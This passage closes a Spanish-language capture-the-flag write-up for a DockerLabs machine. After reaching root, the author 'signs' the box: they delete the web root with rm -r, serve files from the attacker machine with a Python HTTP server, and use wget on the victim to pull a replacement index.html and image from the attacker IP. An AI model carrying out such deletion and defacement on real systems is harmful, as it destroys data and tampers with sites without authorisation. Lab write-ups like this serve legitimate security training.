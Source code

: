 y ahí tendríamos acceso como root.

# Extra 

vamos a dejar nuestra firma en http como solemos hacer en los CTF de dockerlabs. Una vez somos root haremos 

```bash
cd /var/www/html/
```

```bash
rm -r ./*
```

y ahora en nuestra maquina atacante abrimos un puerto http con python

![[20250812213550.png]](veneno-images/20250812213550.png)

en esta carpeta tengo mi index.html con la imagen panda.png que es la que utilizo para dejar la firma panda2 era otra posible imagen que al final no utilice y proceso son los pasos que os estoy explicando. de esta carpeta lo único que deberíais tener es el index.html personalizado y la imagen que vayáis a utilizar, ahora si abrimos el puerto con python

```bash
python3 -m http.server 8081
```

y en la maquina victima pondremos lo siguiente 

```bash
wget http://192.168.1.182:8081/index.html -O index.html && wget http://192.168.1.182:8081/panda.png -O panda.png
```

![[20250812213539.png]](veneno-images/20250812213539.png)
